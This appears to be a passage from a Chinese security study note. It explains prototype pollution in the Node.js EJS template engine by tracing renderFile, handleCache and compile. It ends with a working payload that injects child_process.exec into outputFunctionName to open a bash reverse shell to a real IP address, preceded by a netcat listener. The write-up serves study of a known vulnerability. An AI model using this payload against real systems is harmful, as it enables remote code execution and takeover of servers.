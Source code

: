 ```shell
nc -lvp 2333
```

### 实例2 ejs模板引擎

#### 具体过程

[[Web/Nodejs]原型链污染EJS模块的利用分析(附源码分析)_車鈊的博客-CSDN博客_ejs原链污染](https://blog.csdn.net/DARKNOTES/article/details/124000520)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1672821668968-1dc06d55-cf2d-4a98-90cf-7dee2109a59f.png#averageHue=%23242321&clientId=u552a2a54-355d-4&from=paste&height=331&id=uae797429&originHeight=728&originWidth=1311&originalType=binary&ratio=1&rotation=0&showTitle=false&size=142891&status=done&style=none&taskId=uec2e912a-cb7b-457f-8954-7f9f685ff41&title=&width=595.9090779931095)

- 检查代码发现用了ejs模板
- ejs 的 renderFile 进入

```javascript
exports.renderFile = function () { ... return tryHandleCache(opts, data, cb); }; 
```

- 跟进 tryHandleCache 函数, 发现一定会进入 handleCache 函数

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1672821698507-e0bd1cb8-d941-4c5b-b6bc-ee690d2a22f5.png#averageHue=%231a1919&clientId=u552a2a54-355d-4&from=paste&id=u901b1172&originHeight=690&originWidth=738&originalType=url&ratio=1&rotation=0&showTitle=false&size=58187&status=done&style=none&taskId=u12470627-0f9a-401d-bf04-392dd6b3de3&title=)

- 跟进 handleCache 函数

```javascript
function handleCache(options, template) { ...     func = exports.compile(template, options); ... } 
```

:::info
这里的compile很关键，它的作用是**输出解析后的html字符串，也就是可以解析字符串，那如果其中的参数可以构造，就可以实现远程rce**<br />语法:ejs.compile(str,options);
:::

| **参数** | **参数说明**                   |
| -------- | ------------------------------ |
| str      | 这个是用来渲染的数据展示区域   |
| opstions | 这是个额外的参数配置,可以省略, |

- 然后跟进 complie 函数, 会发现有大量的渲染拼接,如果可以构造prended就可以rce

#### payload

```javascript
this.source = prepended + this.source + appended;
prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
```

所以让`opts.outputFunctionName`的值是：前后两个变量是为了闭合字符串

```shell
a=2333;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/121.36.96.230/2333 0>&1\"');var __tmp2
```

# 